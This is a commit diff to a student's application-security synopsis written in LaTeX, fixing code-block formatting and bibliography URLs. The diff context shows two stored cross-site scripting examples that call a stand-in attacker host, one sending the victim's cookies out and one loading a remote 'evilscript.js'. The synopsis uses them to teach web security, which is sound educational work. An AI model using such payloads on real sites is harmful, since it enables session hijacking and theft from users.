

Before and after one commit to marcinzelent/application-security, a LaTeX document (synopsis.tex): two parts of pages 10 and 14 of 14, joined at a grey line, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
Fixed formatting

```diff
--- a/synopsis.tex
+++ b/synopsis.tex
@@ -439,7 +439,7 @@ example could be a comment on a forum, which contains Javascript code. If the
 vulnerability is present, it will not be displayed on the page, but it will be
 executed. It could be simple like:
 
-\begin{minted}{js}
+\begin{minted}{html}
 <script>document.createElement('img').src = 'http://attackerswebsite.com/' +
 document.cookie</script>
 \end{minted}
@@ -448,7 +448,7 @@ This script would create an HTTP request to attacker's website with the victim's
 cookies, which could contain for example very useful session token. It is also
 possible to include much bigger scripts with:
 
-\begin{minted}{js}
+\begin{minted}{html}
 <script src="http://attackerswebsite.com/evilscript.js"></script>
 \end{minted}
 
@@ -602,13 +602,13 @@ end, I managed to finish my synopsis on time, so it is not a big issue.
 	\bibitem{sbd}
 		OWASP.
 		\textit{Security by Design Principles}.
-		\texttt{https://www.owasp.org/index.php/\allowbreak{}
+		\texttt{https://owasp.org/index.php/\allowbreak{}
 		Security\_by\_Design\_Principles}
 
 	\bibitem{sdl}
 		Microsoft.
 		\textit{Security Development Lifecycle}.
-		\texttt{https://www.microsoft.com/sdl}
+		\texttt{https://microsoft.com/sdl}
 
 \end{thebibliography}
 
```
Also changed, not shown: synopsis.pdf.
